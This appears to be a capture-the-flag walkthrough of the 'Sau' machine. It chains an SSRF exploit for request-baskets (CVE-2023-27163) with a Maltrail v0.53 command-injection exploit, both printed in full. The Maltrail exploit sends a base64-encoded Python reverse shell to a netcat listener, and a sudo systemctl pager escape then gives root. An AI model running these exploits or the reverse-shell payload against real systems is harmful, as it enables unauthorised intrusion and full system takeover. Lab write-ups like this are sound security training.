# Sau      


## Solution

### Scan with Nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.




Here are the descriptions of the open ports shown in the screenshots:

### **22/tcp (SSH)**
The SSH service on this port is **OpenSSH 8.2p1** running on **Ubuntu 4ubuntu0.7**. It supports **protocol version 2.0**, providing a secure channel for remote access. The server presents multiple host keys: **3072-bit RSA**, **256-bit ECDSA**, and **256-bit ED25519**, each with unique fingerprints for identification and authentication.

### **80/tcp (HTTP)**
The HTTP service on this port is filtered, indicating that a firewall or other network security device restricts access to it. No specific service details are accessible due to this filtered state, which may suggest a defensive measure to conceal web services or prevent unauthorized access.

### **55555/tcp (Unknown)**
An unknown service operates on this port, returning an HTTP-based response. Specific fingerprinting suggests that this service could handle a variety of requests, including **FourOhFourRequest**, **GetRequest**, and **HTTPOptions**, and supports HTTP methods **GET** and **OPTIONS**. The server responds with **HTTP status codes 302 Found**,  **400 Bad Request**, and **200 OK** under different request types, hinting at a web service potentially using a custom protocol or API. The response includes error messages like **invalid basket name**, suggesting the application uses specific naming conventions or input patterns for its resources, likely indicating a web-based API or internal management interface.

I pasted `http://{target ip}:55555` to see what will happen.



There is a `request-baskets` instance running. 

**Request Baskets** is a web service to collect arbitrary HTTP requests and inspect them via RESTful API or a simple web interface.



When I saw this footer I immediately pasted `request-baskets | Version: 1.2.1` into the browser.

I found this exploit:

```
https://github.com/entr0pie/CVE-2023-27163
```



It is for **CVE-2023-27163** vulnerability.

Script looks like this:

```bash
#!/bin/bash

echo -e "Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163\n";

if [ "$#" -lt 2 ] || [ "$1" = "-h" ] || [ "$1" = "--help" ]; then
    help="Usage: CVE-2023-27163.sh <URL> <TARGET>\n\n";
    help+="This PoC will create a vulnerable basket on a Request-Baskets (<= 1.2.1) server,\n";
    help+="which will act as a proxy to other services and servers.\n\n";
    help+="Arguments:\n" \
    help+=" URL            main path (/) of the server (eg. http://127.0.0.1:5000/)\n";
    help+=" TARGET         r-baskets target server (eg. https://b5f5-138-204-24-206.ngrok-free.app/)\n\n";
    help+="More info at https://github.com/entr0pie/CVE-2023-27163.";

    echo -e "$help";
    exit 1;
fi

URL=$1
ATTACKER_SERVER=$2

if [ "${URL: -1}" != "/" ]; then
    URL="$URL/";
fi;

BASKET_NAME=$(LC_ALL=C tr -dc 'a-z' </dev/urandom | head -c "6");

API_URL="$URL""api/baskets/$BASKET_NAME";

PAYLOAD="{\"forward_url\": \"$ATTACKER_SERVER\",\"proxy_response\": true,\"insecure_tls\": false,\"expand_path\": true,\"capacity\": 250}";

echo "> Creating the \"$BASKET_NAME\" proxy basket...";

if ! response=$(curl -s -X POST -H 'Content-Type: application/json' -d "$PAYLOAD" "$API_URL"); then
    echo "> FATAL: Could not properly request $API_URL. Is the server online?";
    exit 1;
fi;

BASKET_URL="$URL$BASKET_NAME";

echo "> Basket created!";
echo "> Accessing $BASKET_URL now makes the server request to $ATTACKER_SERVER.";

if ! jq --help 1>/dev/null; then
    echo "> Response body (Authorization): $response";
else
    echo "> Authorization: $(echo "$response" | jq -r ".token")";
fi;

exit 0;
```

Let's get it:

```
git clone https://github.com/entr0pie/CVE-2023-27163.git
```
```
cd CVE-2023-27163
```



Let's create a new basket.



Click `open basket`.



I've tried with `http://127.0.0.1:80` and given link finally gave me access:

```
./CVE-2023-27163.sh http://{target ip}:55555 http://127.0.0.1:80
```



Paste this into your browser.



Site is pretty poor, so I decided to search for `Maltrail (v0.53)` exploits in the Google.

I found that one and decided to use it. It looks perfect, just for us.

```
https://github.com/spookier/Maltrail-v0.53-Exploit
```



```Python
'''
  ██████  ██▓███   ▒█████   ▒█████   ██ ▄█▀ ██▓▓█████  ██▀███  
▒██    ▒ ▓██░  ██▒▒██▒  ██▒▒██▒  ██▒ ██▄█▒ ▓██▒▓█   ▀ ▓██ ▒ ██▒
░ ▓██▄   ▓██░ ██▓▒▒██░  ██▒▒██░  ██▒▓███▄░ ▒██▒▒███   ▓██ ░▄█ ▒
  ▒   ██▒▒██▄█▓▒ ▒▒██   ██░▒██   ██░▓██ █▄ ░██░▒▓█  ▄ ▒██▀▀█▄  
▒██████▒▒▒██▒ ░  ░░ ████▓▒░░ ████▓▒░▒██▒ █▄░██░░▒████▒░██▓ ▒██▒
▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░░ ▒░▒░▒░ ░ ▒░▒░▒░ ▒ ▒▒ ▓▒░▓  ░░ ▒░ ░░ ▒▓ ░▒▓░
░ ░▒  ░ ░░▒ ░       ░ ▒ ▒░   ░ ▒ ▒░ ░ ░▒ ▒░ ▒ ░ ░ ░  ░  ░▒ ░ ▒░
░  ░  ░  ░░       ░ ░ ░ ▒  ░ ░ ░ ▒  ░ ░░ ░  ▒ ░   ░     ░░   ░ 
      ░               ░ ░      ░ ░  ░  ░    ░     ░  ░   ░     
'''

import sys;
import os;
import base64;

def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
  main()
```

Let's quickly get it:

```
git clone https://github.com/spookier/Maltrail-v0.53-Exploit
```

```
cd Maltrail-v0.53-Exploit
```

### Netcat

Time to run it but first of all, we have to set up **Netcat** listener:

```
nc -lvnp {any port you want}
```



Now, execute exploit:

```
python3 exploit.py {your tun0 ip} {port you have chosen} http://{target ip}:55555/{your basket}
```



In your **Netcat** tab you should have a shell.



I did not find a good way to stabilize it. Sorry.

### Get the user flag

The `user` flag is in the `/home/puma` directory.



### Privilege escalation

**Sudo -l** is always powerful move, especially on the easy-level machines.



My first idea was to search **GTFOBins** for interesting payloads for **systemctl**.(`https://gtfobins.github.io/`)

And honestly, now when I write this writeup and I go through the whole machine again, I am amused because I see how easy it was. 

The crucial payload was there but I did not use it correctly because I misunderstood its purpose.





It took me more time but after pasting `systemctl privilege escalation` into the **Google** I found several articles that helped me understand the problem better.

```
https://packetstormsecurity.com/files/174130/systemd-246-Local-Root-Privilege-Escalation.html
```

That one was very helpful.



The problem I was looking for turned out to be **CVE-2023-26604**.

Let’s hop back into our target machine’s shell.

We know that user **puma** may run the following command on **sau** as **root** user:

```
/usr/bin/systemctl status trail.service
```

We just have to remember to hit it with **sudo**.

```
sudo /usr/bin/systemctl status trail.service
```




At the bottom of the shell there is text and it is hanging. If I paste `!sh` or `!/bin/sh` and hit `Enter` this trick should work.



We are `root`.

### Get the root flag

`Root` flag is in the `/root` directory.



### Paste the flags

